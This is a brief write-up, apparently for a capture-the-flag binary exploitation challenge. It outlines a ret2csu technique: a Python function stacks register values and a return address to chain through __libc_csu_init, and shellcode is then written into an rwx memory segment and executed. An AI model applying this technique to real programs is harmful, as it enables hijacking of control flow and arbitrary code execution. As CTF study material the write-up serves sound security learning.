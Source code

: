 #Exploit Works  
in challenge Binary, Due to insufficient gadgets in the binary, proceed to exploit via the 'libc_csu_init' function.  

'''python
def csu_init(func, arg1, arg2, arg3, returns):
	payload =  'A' * 8
	payload += p64(0)    # rbx
	payload += p64(1)    # rbp
	payload += p64(func) # r12
	payload += p64(arg1) # r13
	payload += p64(arg2) # r14
	payload += p64(arg3) # r15
	payload += p64(returns) # rip
	return payload
'''  

and write Shellcodes in rwx segment (0x601000-0x602000), call it
